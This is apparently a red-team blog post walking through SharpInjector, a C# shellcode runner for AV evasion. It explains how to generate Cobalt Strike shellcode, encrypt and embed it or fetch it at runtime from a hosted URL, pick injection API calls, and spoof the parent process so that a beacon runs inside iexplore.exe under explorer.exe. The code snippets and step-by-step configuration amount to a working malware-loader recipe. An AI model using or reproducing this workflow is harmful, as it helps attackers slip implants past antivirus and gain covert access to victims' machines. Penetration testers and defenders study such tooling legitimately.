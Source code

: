 ```yaml
---
layout: post
title: SharpInjector
subtitle: Experimenting with a shellcode runner
thumbnail-img: /assets/posts/sharpinjector/thumb.png
share-img: /assets/posts/sharpinjector/thumb.png
tags: [c#, shellcode runner, sharpinjector]
---
```

<img alt="C#" src="https://img.shields.io/badge/c%23%20-%23239120.svg?&style=for-the-badge&logo=c-sharp&logoColor=white"/><a href="https://github.com/tw1sm/SharpInjector"><img width=40px src="https://github.githubassets.com/images/modules/logos_page/Octocat.png" alt="octocat"></a>

Since AV evasion has become more difficult over time, I've had to turn to more mature payloads and shellcode runners. Gone are the days of initial access through click-to-generate payloads like Cobalt Strike's HTA. Some of the more customized and advanced runners I've had sucess with are FireEye's [DueDlligence](https://github.com/fireeye/DueDLLigence), [D00Fist's](https://twitter.com/_D00mfist) [Go4aRun](https://github.com/D00MFist/Go4aRun) and [djhohnstein's](https://twitter.com/djhohnstein) [scatterbrain](https://github.com/djhohnstein/ScatterBrain). 

The SharpInjector project is my inital attempt at writing a custom shellcode runner in the same vein as those projects (lots of inspiration drawn from them, as well as this [DEFCON workshop](https://github.com/mvelazc0/defcon27_csharp_workshop) for help learning parent process ID spoofing). Below is a quick run through of setup/usage, highlighting some of the customization options along the way.

# Prepping the Shellcode
The final SharpInjector payload will contain encrypted shellcode, decrypt it and perform the injection. So we'll need to get some encrypted shellcode into the solution to start.

1. Generate your shellocde - I'll do this in Cobalt Strike: *Attacks > Packages > Windows Executable (S)*
![Generate Shellcode](/assets/projects/sharpinjector/shellcode.png){: .mx-auto.d-block :}


2. Clone the project and transfer your `.bin` file over the the system you're generating the payload on

    ~~~
    git clone https://github.com/tw1sm/SharpInjector.git
    ~~~


3. Open up the `ScEncryptor` project and edit `Program.cs`. On line 34, edit the encryption key variable:
    ```csharp
    public static string Enc(string data)
            {
                string enc = "";
                string key = "01010101010101010101010101010101"; // CHANGE THIS TO A 16/24/32 BYTE VALUE
    ```


4. Build the `ScEncryptor` project 


5. Run `ScEncryptor.exe` and supply the path of your shellcode .bin as the sole argument
![Encrypt Shellcode](/assets/projects/sharpinjector/scencryptor.png){: .mx-auto.d-block :}

Your shellcode will be encrypted, then base64 encoded and the resulting string will automatically be placed into the `SharpInjector` project in `Shellycode.cs`:
```csharp
namespace SharpInjector
{
	class EncryptedShellcode
	{
		public string EncSc = "Od/HuzTqISDnPNtgmoUZ2c8" //SNIPPED
    }
}
```

You can choose to leave the encrypted shellcode within this file and contiune customizing the project. However, if you don't want to include the shellcode string in the final binary, you can copy the base64 string out of `Shellycode.cs` and host a file with the string on the web. If the `EncSc` var is set to an empty string, your shellcode will be downloaded from a supplied URL at runtime:
```csharp
namespace SharpInjector
{
	class EncryptedShellcode
	{
		public string EncSc = "" //Has to be blank for download to run
    }
}
```

This not only has the benefit of excluding the encrypted shellcode from your binary, but it also offers you a sort of "killswitch" for the payload. If you stop hosting your shellcode file at any point, your payload will become a dud. Conversely though, your payload will now be reaching out to the internet, so consider what is best for your situation.

# Building the Payload
The shellcode is ready, let's cutomize the actual payload and build it.

1. Set the decryption key on line 103 within `Program.cs` in the `SharpInjector` project to match your encryption key set in the `ScEncryptor` project
    ```csharp
    // Decryptor func
    public static string Dec(string ciphertext)
    {
        string key = "01010101010101010101010101010101"; // CHANGE THIS 16/24/32 BYTE VALUE TO MATCH ENCRYPTION KEY
    ```


2. Still within `Program.cs`, on line 22 set your preferred Windows API call used to execute the shellcode. This is very similar to how `DueDlligence` offers several execution options - I've just expanded on the available options to practice importing API calls in C#
    ```csharp
    const ExecutionMethod exeMethod = ExecutionMethod.RtlCreateUserThread; // CHANGE THIS; shellcode exectuon method
    ```


3. On lines 24 and 25, set the parent process ID spoofing configs. Line 24 sets the parent process that a child will be spawned from. `explorer.exe` is a good target for this. On line 25, the `ProgramPath` variable specifies the child process to launch - this is the process your beacon/shell will live in.
    ```csharp
    string ParentName = "explorer"; // CHANGE THIS: name of parent process
    string ProgramPath = @"C:\Program Files\Internet Explorer\iexplore.exe"; // CHANGE THIS: path to process shellcode will be injected into
    ```


4. Lastly, if you've chosen to host your shellcode on the web for download, set the `ShellcodeUrl` variable on line 26. I'm leaving it blank (shellcode included in the binary) for this test, but an example would look like:
    ```csharp
    string ShellcodeUrl = "https://seetwo-domain.com/shellcodefile"; // CHANGE THIS; URL of encrypted shellcode if downloading from web
    ```


5. Set your build configuration to `x64` and build the payload.

# Testing Execution
I've got the resutling `SharpInjector.exe` on my target system where I'll execute it:
![SharpInjector Execution](/assets/projects/sharpinjector/execute.png){: .mx-auto.d-block :}

And the Cobalt Strike shell caught:
![Shell](/assets/projects/sharpinjector/shell.png){: .mx-auto.d-block :}

Just to double check how this looks in ProcessExplorer, we can see the HTTPS beacon living in `iexplore.exe`, which does appear spoofed as a child of our chosen parent, `explorer.exe`.
![Shell](/assets/projects/sharpinjector/procexp.png){: .mx-auto.d-block :}